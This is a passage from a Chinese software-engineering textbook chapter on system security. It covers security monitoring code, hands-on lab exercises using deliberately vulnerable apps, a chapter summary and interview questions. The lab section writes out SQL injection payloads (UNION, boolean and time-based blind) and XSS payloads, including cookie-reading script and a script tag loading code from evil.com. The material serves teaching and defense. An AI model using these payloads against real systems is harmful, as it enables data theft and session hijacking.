- 使用最小权限运行容器（非root、只读FS、drop ALL capabilities）
- 定期扫描容器镜像和宿主机内核漏洞
- 考虑使用gVisor或Kata Containers增强隔离
- 使用Pod Security Standards（Restricted级别）约束Kubernetes Pod

***

## 误区十：忽视安全监控

### 问题描述

部署了安全措施但没有监控，无法发现正在发生的攻击。安全措施没有监控等于没有安全。

### 正确做法

```python
class SecurityMonitor:
    """安全事件监控与告警"""
    
    def __init__(self):
        self.alert_thresholds = {
            'failed_logins_per_minute': 5,
            'permission_denied_per_minute': 10,
            'api_errors_per_minute': 50,
            'data_export_per_hour': 1000,
            'new_admin_account': 1,
        }
        self.metrics = defaultdict(list)
    
    def record_event(self, event_type: str):
        """记录安全事件"""
        self.metrics[event_type].append(time.time())
    
    def check_alerts(self) -> list:
        """检查是否触发告警"""
        alerts = []
        now = time.time()
        
        for event_type, threshold in self.alert_thresholds.items():
            # 计算时间窗口内的事件数
            window = 3600 if 'hour' in event_type else 60
            recent = [t for t in self.metrics[event_type] if now - t < window]
            
            if len(recent) >= threshold:
                alerts.append({
                    'type': event_type,
                    'count': len(recent),
                    'threshold': threshold,
                    'severity': 'critical' if len(recent) >= threshold * 2 else 'warning'
                })
        
        return alerts
    
    def send_alert(self, alert: dict):
        """发送告警到SIEM/通知系统"""
        # 集成Slack/PagerDuty/邮件等
        ...
```

**监控关键指标**：
- 认证事件：登录成功/失败、MFA使用、异常时间登录
- 授权事件：权限拒绝、越权尝试、角色变更
- 数据访问：大规模查询、数据导出、敏感表访问
- 系统异常：进程异常、文件变更、网络连接异常

***

## 安全检查清单

| 检查项 | 状态 |
|--------|------|
| 所有输入都经过验证 | □ |
| SQL查询使用参数化 | □ |
| XSS防护（输出编码+CSP） | □ |
| CSRF防护（Token+SameSite） | □ |
| 密码使用Argon2id哈希 | □ |
| Session安全配置（Secure/HttpOnly/SameSite） | □ |
| 安全响应头（HSTS/CSP/X-Frame-Options） | □ |
| API有速率限制和认证 | □ |
| 依赖库已更新（无已知高危漏洞） | □ |
| 敏感数据加密存储 | □ |
| 日志不含敏感信息 | □ |
| 容器以非root运行 | □ |
| CI/CD使用短期凭证 | □ |
| 密钥通过KMS/Vault管理 | □ |
| 有安全监控和告警 | □ |
| 有事件响应计划 | □ |
| 零信任架构实施 | □ |

***

*软件工程核心知识体系 · 第34章 · 常见误区*


***

# 第34章-系统安全：练习方法

## 基础练习

### 练习一：SQL注入实验室

**目标**：理解SQL注入的原理和防御方法

**环境搭建**：

```bash
# 使用DVWA (Damn Vulnerable Web Application)
docker run --rm -d -p 80:80 vulnerables/web-dvwa

# 或使用SQLi-labs
docker run --rm -d -p 8080:80 acgpiano/sqli-labs

# 或使用WebGoat（OWASP官方教学应用）
docker run --rm -d -p 8080:8080 webgoat/webgoat
```

**实验步骤**：

1. 在DVWA的SQL Injection模块中测试各种注入payload
2. 使用Burp Suite拦截和修改请求
3. 逐步提升安全级别（Low → Medium → High → Impossible）
4. 分析每种级别的防御方式
5. 编写参数化查询版本，验证修复效果

**实验payload**：

```sql
-- 基本注入
' OR '1'='1
' OR '1'='1' --

-- UNION注入
' UNION SELECT username, password FROM users--
' UNION SELECT 1, table_name FROM information_schema.tables--

-- 布尔盲注
' AND (SELECT SUBSTRING(username,1,1) FROM users LIMIT 1)='a'--

-- 时间盲注
' AND IF(SUBSTRING(database(),1,1)='d', SLEEP(3), 0)--
```

**进阶任务**：
- 手动编写一个存在SQL注入漏洞的Web应用
- 使用sqlmap自动化工具进行测试
- 编写WAF规则防御SQL注入

***

### 练习二：XSS漏洞实验

**目标**：理解XSS攻击和防御

**步骤**：

1. 在DVWA的XSS模块中注入脚本
2. 理解反射型、存储型和DOM型XSS的区别
3. 实现输出编码和CSP防护

```html
<!-- 反射型XSS payload -->
<script>alert(document.cookie)</script>

<!-- 绕过简单过滤 -->

<svg onload=alert(1)>
<body onload=alert(1)>

<!-- DOM型XSS -->
<script>document.getElementById('output').innerHTML=location.hash.substring(1)</script>

<!-- 绕过CSP（在无nonce的宽松配置下） -->
<script src="https://evil.com/xss.js"></script>
```

**防御实现**：

```python
from markupsafe import escape
import secrets

# 输出编码
safe_output = escape(user_input)

# CSP头（带nonce）
nonce = secrets.token_hex(16)
csp = f"default-src 'self'; script-src 'self' 'nonce-{nonce}'"
```

***

### 练习三：使用OWASP ZAP进行安全扫描

**目标**：掌握自动化安全扫描工具

**步骤**：

```bash
# 安装OWASP ZAP（Docker方式）
docker run -u zap -p 8080:8080 -p 8090:8090 -i owasp/zap2docker-stable zap-webswing.sh

# 命令行扫描
zap-cli quick-scan http://target-app
zap-cli active-scan http://target-app
zap-cli report -o report.html -f html

# API扫描
zap-cli openapi-scan http://target-app/api/v1/swagger.json
```

**分析报告**：

1. 识别高危漏洞（红色标记）
2. 理解漏洞的风险等级（High/Medium/Low/Informational）
3. 查看每个漏洞的详细描述和修复建议
4. 制定修复计划，按优先级排序

***

## 进阶练习

### 练习四：搭建CTF环境

**推荐平台**：

| 平台 | 特点 | 适合人群 |
|------|------|----------|
| HackTheBox | 在线渗透测试实验室，真实环境 | 中高级 |
| TryHackMe | 引导式学习，手把手教学 | 初中级 |
| PicoCTF | CTF入门，题目有趣 | 初学者 |
| OverTheWire | Linux命令行安全挑战 | 初学者 |
| PortSwigger Web Security Academy | Web安全专题，免费高质量 | 所有级别 |
| VulnHub | 下载离线靶机练习 | 中级 |

**Web安全挑战**：

```bash
# Bandit (OverTheWire) - Linux基础
ssh bandit0@bandit.labs.overthewire.org -p 2220

# Natas - Web安全
# http://natas0.natas.labs.overthewire.org/
# 用户名: natas0 密码: natas0
```

**推荐CTF练习路线**：

1. **入门**（1-2个月）：PicoCTF → TryHackMe基础房间 → OverTheWire Bandit
2. **进阶**（2-6个月）：TryHackMe中级房间 → HackTheBox Easy → PortSwigger Academy
3. **高级**（6个月+）：HackTheBox Medium → 真实CVE复现 → 自建靶场

***

### 练习五：容器安全审计

**目标**：检查容器镜像和运行时的安全性

```bash
# 1. 使用Trivy扫描镜像漏洞
trivy image nginx:latest
trivy image --severity HIGH,CRITICAL --exit-code 1 myapp:latest

# 2. 使用Docker Bench Security检查Docker配置
docker run --rm --net host --pid host --userns host --cap-add audit_control \
    -v /var/lib:/var/lib \
    -v /var/run/docker.sock:/var/run/docker.sock \
    docker/docker-bench-security

# 3. 检查容器运行时安全
docker inspect --format='{{.HostConfig.Privileged}}' container_name
docker inspect --format='{{.AppArmorProfile}}' container_name
docker inspect --format='{{.HostConfig.SecurityOpt}}' container_name

# 4. 检查Kubernetes安全配置
kube-score score deployment.yaml
kube-linter lint deployment.yaml
```

**练习任务**：

1. 扫描一个Docker镜像，列出所有高危漏洞并分析影响
2. 编写一个安全的Dockerfile（最小镜像、非root、只读FS）
3. 配置Kubernetes安全上下文（Restricted级别）
4. 使用gVisor运行一个容器，对比性能差异

***

### 练习六：威胁建模实战

**目标**：对一个Web应用进行完整的威胁建模

**步骤**：

1. 绘制应用的数据流图（DFD）——识别所有组件和数据流
2. 标记信任边界（用户→前端、前端→后端、后端→数据库）
3. 对每个元素应用STRIDE分析——系统性检查六种威胁
4. 使用DREAD评估风险——为每个威胁打分
5. 制定缓解措施——针对高风险威胁设计防御方案

**工具推荐**：

| 工具 | 类型 | 特点 |
|------|------|------|
| Microsoft Threat Modeling Tool | 桌面应用 | 微软官方，STRIDE集成 |
| OWASP Threat Dragon | Web应用 | 开源，支持代码化 |
| draw.io | 绘图工具 | 免费，灵活 |
| Threatspec | CLI工具 | 基于代码的威胁建模 |

***

### 练习七：代码安全审计

**目标**：在开源项目中寻找安全漏洞

```bash
# 使用Semgrep进行静态分析
pip install semgrep
semgrep --config=p/owasp-top-ten target-directory/
semgrep --config=p/python target-directory/

# 使用Bandit扫描Python代码
pip install bandit
bandit -r target-directory/ -f json -o report.json

# 使用CodeQL（GitHub自带）
# 在GitHub仓库中启用CodeQL代码扫描
```

**审计重点**：

1. **输入验证**：所有外部输入是否经过验证？
2. **输出编码**：用户数据输出时是否编码？
3. **认证和授权**：是否有完善的认证机制？权限检查是否充分？
4. **加密和密钥管理**：敏感数据是否加密？密钥如何存储？
5. **错误处理**：错误信息是否泄露敏感信息？
6. **日志记录**：是否记录了安全事件？是否避免了记录敏感信息？
7. **第三方依赖**：是否使用了有已知漏洞的库？
8. **配置安全**：是否有默认密码、调试模式开启等问题？

***

## 思考题

1. **为什么OWASP Top 10将"访问控制失效"列为第一风险？**
   提示：考虑BOLA/IDOR的普遍性、检测难度、影响范围。

2. **ASLR如何被绕过？有哪些缓解措施？**
   提示：信息泄露、部分地址覆盖、侧信道攻击、内存映射泄露。

3. **容器和虚拟机的安全隔离有什么本质区别？**
   提示：内核共享、攻击面大小、Namespace vs Hypervisor。

4. **零信任架构的核心原则是什么？如何在现有系统中逐步实施？**
   提示：不信任网络位置、持续验证、最小权限、微分段。

5. **如何平衡安全性和用户体验？**
   提示：MFA vs 登录摩擦、密码策略 vs 用户习惯、安全提示 vs 用户疲劳。

6. **供应链攻击为什么难以防御？SBOM如何帮助应对？**
   提示：信任链、代码签名、依赖深度、SBOM的作用和局限。

7. **在微服务架构中，服务间通信如何保证安全？**
   提示：mTLS、服务网格（Istio）、JWT传播、零信任网络。

***

*软件工程核心知识体系 · 第34章 · 练习方法*


***

# 第34章-系统安全：本章小结

## 核心要点回顾

### 安全威胁建模

- **STRIDE模型**：系统性识别六类安全威胁（仿冒、篡改、抵赖、信息泄露、拒绝服务、权限提升）
- **DREAD模型**：量化威胁风险等级，指导修复优先级
- **攻击面分析**：识别系统的所有暴露点，持续减少攻击面

### 内存安全漏洞与防御

| 漏洞类型 | 原理 | 典型利用 | 防御 |
|----------|------|----------|------|
| 栈溢出 | 覆盖返回地址 | 控制执行流 | Canary + ASLR + NX |
| 堆溢出 | 覆盖堆元数据 | 任意写入 | ASLR + Safe Unlinking |
| 格式化字符串 | printf参数利用 | 信息泄露/任意写入 | 禁止用户控制格式字符串 |
| UAF | 使用已释放内存 | 劫持对象 | 智能指针 + 内存安全语言 |
| 整数溢出 | 数值范围错误 | 缓冲区溢出 | 安全运算库 + 边界检查 |

### 现代防御机制组合

ASLR + PIE    → 随机化地址空间（增加预测难度）
DEP/NX        → 禁止执行数据（阻止shellcode）
Stack Canary  → 检测栈溢出（增加利用成本）
CFI           → 保护控制流（限制ROP利用）
Shadow Stack  → 硬件级返回保护（最可靠的后向CFI）
seccomp       → 限制系统调用（减小攻击面）

### Web安全核心

| 攻击类型 | 防御措施 |
|----------|----------|
| XSS | 输出编码 + CSP + HttpOnly Cookie |
| CSRF | CSRF Token + SameSite Cookie |
| SQL注入 | 参数化查询 + ORM |
| SSRF | URL白名单 + 禁止内网访问 + IMDSv2 |
| XXE | 禁用外部实体解析 |

### API安全（OWASP API Top 10）

| 攻击类型 | 防御措施 |
|----------|----------|
| BOLA/IDOR | 基于用户身份过滤资源访问 |
| 身份认证失效 | MFA + Token管理 + 限速 |
| 对象属性级授权 | 最小化API返回字段 |
| 资源消耗不受限 | 速率限制 + 查询复杂度限制 |

### 认证与授权

- **OAuth 2.0**：授权框架，使用授权码流程 + PKCE最安全
- **JWT**：签名验证算法（EdDSA/ES256）、检查过期时间、验证iss/aud
- **RBAC**：基于角色的访问控制，简单场景推荐
- **ABAC**：基于属性的访问控制，复杂场景推荐

### 零信任架构

三大原则：显式验证、最小权限访问、假设已被入侵。组件包括身份验证引擎、策略引擎、资源网关、微分段、设备健康检查、UEBA。

### CI/CD与供应链安全

- SBOM（软件物料清单）：记录所有组件信息
- 代码签名（Sigstore/cosign）：验证制品完整性
- 依赖审计：SCA工具扫描已知漏洞
- CI/CD安全：OIDC替代长期Token、最小权限、PR审查

### 操作系统安全

- **SELinux**：强制访问控制（MAC），RHEL默认
- **AppArmor**：路径-based访问控制，Ubuntu默认
- **seccomp**：系统调用过滤，容器核心安全机制
- **Linux Capabilities**：细粒度权限控制，替代完整root

### 容器安全

最小基础镜像    → distroless、scratch（减少攻击面）
非root运行      → USER nonroot（限制逃逸影响）
只读文件系统    → readOnlyRootFilesystem（防止篡改）
Capabilities    → drop ALL, 只add需要的
镜像扫描        → Trivy、Snyk、Grype
seccomp         → RuntimeDefault profile
镜像签名        → cosign验证完整性

### 安全开发生命周期



### 安全事件响应

六阶段流程：准备 → 检测与分析 → 遏制 → 根除 → 恢复 → 事后总结。关键是快速检测（<15分钟P1响应）、有效遏制（隔离受影响系统）、彻底根除（移除恶意代码+修补漏洞）。

***

## 速查表

### OWASP Top 10（2021）

1. A01:2021 - 访问控制失效
2. A02:2021 - 加密失败
3. A03:2021 - 注入
4. A04:2021 - 不安全设计
5. A05:2021 - 安全配置错误
6. A06:2021 - 脆弱过时组件
7. A07:2021 - 身份认证失败
8. A08:2021 - 软件和数据完整性失败
9. A09:2021 - 安全日志和监控失败
10. A10:2021 - 服务器端请求伪造

### OWASP API Security Top 10（2023）

1. API1 - BOLA/IDOR（对象级授权失效）
2. API2 - 身份认证失效
3. API3 - 对象属性级授权失效
4. API4 - 资源消耗不受限
5. API5 - 功能级别授权失效
6. API6 - 不受约束的访问敏感业务流
7. API7 - 服务器端请求伪造
8. API8 - 安全配置错误
9. API9 - 脆弱过时组件
10. API10 - 日志和监控不足

### 安全响应头

X-Content-Type-Options: nosniff
X-Frame-Options: DENY
X-XSS-Protection: 1; mode=block
Strict-Transport-Security: max-age=63072000; includeSubDomains; preload
Content-Security-Policy: default-src 'self'
Referrer-Policy: strict-origin-when-cross-origin
Permissions-Policy: camera=(), microphone=(), geolocation=()

### 安全编码检查清单

| 类别 | 检查项 |
|------|--------|
| 输入验证 | 白名单验证、长度限制、类型检查 |
| 输出编码 | HTML/JS/URL/SQL上下文编码 |
| 认证 | MFA、强密码、账户锁定、登录通知 |
| 授权 | RBAC/ABAC、最小权限、BOLA防护 |
| 加密 | TLS 1.3、AES-256、Argon2id |
| 日志 | 结构化日志、不含敏感信息、审计要求 |
| 配置 | 安全响应头、CSP、HSTS |

***

## 常见面试问题

**1. 什么是STRIDE模型？如何应用于威胁建模？**

六类威胁：仿冒（Spoofing）、篡改（Tampering）、抵赖（Repudiation）、信息泄露（Information Disclosure）、拒绝服务（Denial of Service）、权限提升（Elevation of Privilege）。应用时对系统的每个组件（外部实体、进程、数据存储、数据流）逐一检查每种威胁类型。

**2. XSS的三种类型有什么区别？**

- 反射型：恶意脚本在URL参数中，服务器反射回页面，不持久化
- 存储型：恶意脚本存储在数据库中，所有访问用户都会执行，最危险
- DOM型：漏洞完全在客户端，恶意数据不经过服务器

**3. 如何防御SQL注入？**

参数化查询（最根本）、ORM、输入验证（白名单）、最小权限数据库用户、WAF规则（补充层）。

**4. 什么是ROP攻击？如何防御？**

ROP（Return-Oriented Programming）复用程序中已有的代码片段（gadgets），通过控制返回地址序列执行任意操作，绕过DEP/NX。防御：CFI（控制流完整性）、Shadow Stack、地址随机化。

**5. 容器安全的最佳实践？**

最小镜像（distroless）、非root运行、只读文件系统、capabilities限制（drop ALL）、镜像扫描（Trivy）、seccomp profile、Pod Security Standards（Restricted）。

**6. 零信任架构的核心原则是什么？**

三大原则：显式验证（每次访问都验证身份和设备状态）、最小权限访问（只授予必要权限）、假设已被入侵（微分段限制爆炸半径）。不是单一产品，而是一套安全理念。

**7. 什么是供应链攻击？如何防御？**

攻击者通过入侵软件供应链（构建系统、依赖库、更新渠道）来分发恶意代码。防御：SBOM（软件物料清单）、代码签名、依赖审计、CI/CD安全（OIDC、最小权限）、行为分析。

**8. OAuth 2.0授权码流程的安全要点？**

使用授权码流程（非隐式流程）、验证state参数防CSRF、公共客户端使用PKCE、使用Refresh Token轮换访问令牌、限制scope、验证token的iss和aud。

***

*软件工程核心知识体系 · 第34章 · 本章小结*
